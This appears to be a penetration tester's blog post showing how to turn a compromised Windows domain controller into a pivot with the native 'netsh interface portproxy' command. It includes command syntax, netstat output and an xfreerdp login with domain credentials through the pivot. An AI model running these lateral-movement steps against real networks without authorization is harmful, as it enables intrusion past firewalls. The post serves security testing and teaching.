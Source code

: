 ```yaml
---
layout: page
#subheadline:  "Subheadline"
title:  "Pivoting in Windows Using Native Port Forwarding"
teaser: "No external tools required!"
#categories:
#    - design
tags:
    - windows
    - pen-testing
    - pivoting
header: no
author: porterhau5
---
```

Ever wanted to route traffic through a compromised Windows host without going through the hassle of setting up a Meterpreter session or uploading files which may get flagged by endpoint protection? Harness the power of `netsh interface portproxy`!

`netsh interface portproxy` is baked right into Windows and has everything you need to set up a pivot point. It works by directing incoming traffic on a specified host:port to a destination host:port. Very simple, and very effective.

### Command

{% highlight html %}
C:\>netsh interface portproxy add v4tov4 listenport=<lport>
listenaddress=<lhost> connectport=<rport> connectaddress=<rhost>

<lport> - local port to listen on
<lhost> - local address to bind to
<rport> - remote port
<rhost> - remote host
{% endhighlight %}

Example:
{% highlight html %}
C:\>netsh interface portproxy add v4tov4 listenport=1194
listenaddress=0.0.0.0 connectport=8080 connectaddress=10.10.10.20

{% endhighlight %}

This would bind locally to `0.0.0.0` (all network interfaces) on `1194/tcp` and route incoming connections to remote host `10.10.10.20:8080`. This particular example might be used to reach a web application that's sitting behind a restrictive firewall.

### Scenario

To give this a bit more context, here's how I utilized this feature during a recent engagement:

I had obtained admin creds and had access to a Domain Controller via SMB. An Nmap scan showed that the network firewall allowed me to also get to 88/tcp, 389/tcp, and some of the high-range TCP ports (49152, 49153, etc.) on the DC as well. However, the network firewall didn’t allow me to reach back to my attack host, so reverse connections were out of the question. I couldn’t reach RDP, and all quick attempts to get a Meterpreter session going failed. I tried altering the local firewall, but it got me nowhere due to the restrictive network firewall rules. I really wanted to use this DC as a pivot point to get to some juicy targets that I suspected had RDP exposed.

Within my [winexe](https://sourceforge.net/projects/winexe/) session, I ran netstat on the DC (10.10.10.10) to figure out which high-range TCP port would be available for me to bind to:
{% highlight html %}
C:\Windows\system32>netstat -an

Active Connections

  Proto  Local Address        Foreign Address      State
  TCP    0.0.0.0:88           0.0.0.0:0            LISTENING
  TCP    0.0.0.0:111          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:135          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:389          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:445          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:464          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:593          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:610          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:636          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:1688         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3268         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3269         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3389         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:5722         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:6677         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:9389         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:9898         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:47001        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49152        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49153        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49154        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49155        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49158        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49159        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49160        0.0.0.0:0            LISTENING
{% endhighlight %}

I decided to bind to `0.0.0.0:49162`, seeing as it was unused and I could most likely reach it through the network firewall. I used the `netsh interface portproxy` command to forward my traffic to a database server located at `10.10.10.20:3389`:

{% highlight html %}
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=49162
listenaddress=0.0.0.0 connectport=3389 connectaddress=10.10.10.20

C:\Windows\system32>netstat -an

Active Connections

  Proto  Local Address        Foreign Address      State
  TCP    0.0.0.0:88           0.0.0.0:0            LISTENING
  TCP    0.0.0.0:111          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:135          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:389          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:445          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:464          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:593          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:610          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:636          0.0.0.0:0            LISTENING
  TCP    0.0.0.0:1688         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3268         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3269         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:3389         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:5722         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:6677         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:9389         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:9898         0.0.0.0:0            LISTENING
  TCP    0.0.0.0:47001        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49152        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49153        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49154        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49155        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49158        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49159        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49160        0.0.0.0:0            LISTENING
  TCP    0.0.0.0:49162        0.0.0.0:0            LISTENING <-- pivot
{% endhighlight %}

The pivot point was set on the DC. I could now connect xfreerdp to my newly-created listener and have my traffic forwarded to the secondary host:
{% highlight html %}
root@kali:~ # xfreerdp /d:DOM /u:admin /p:password /v:10.10.10.10:49162
connected to 10.10.10.10:49162
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@           WARNING: CERTIFICATE NAME MISMATCH!           @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
The hostname used for this connection (10.10.10.10)
does not match the name given in the certificate:
Common Name (CN):
  DB-20.dom.local
A valid certificate for the wrong name should NOT be trusted!
Certificate details:
  Subject: CN = DB-20.dom.local
  Issuer: CN = DB-20.dom.local
  Thumbprint: 52:da:ec:9e:f6:75:6e:84:12:d2:2f:e9:e3:2c:47:b6:3b:d0:bf:d3
The above X.509 certificate could not be verified, possibly because
you do not have the CA certificate in your certificate store, or the
certificate has expired. Please look at the documentation on how to
create local certificate store for a private CA.
Do you trust the above certificate? (Y/N) Y
{% endhighlight %}

Woo, thanks `netsh`!

### More Info

This is an example of using `netsh interface portproxy` to establish pivoting routes over IPv4, but it's also possible over IPv6, and even IPv4-to-IPv6 (and vice versa). Check out the documentation from Microsoft [here](https://technet.microsoft.com/en-us/library/cc731068%28v=ws.10%29.aspx).

This should work out of the box on Windows 2008 and later. It should also work on Windows 2003, but it may error out if IPv6 isn't supported on the host. More info [here](https://support.microsoft.com/en-us/kb/555744).

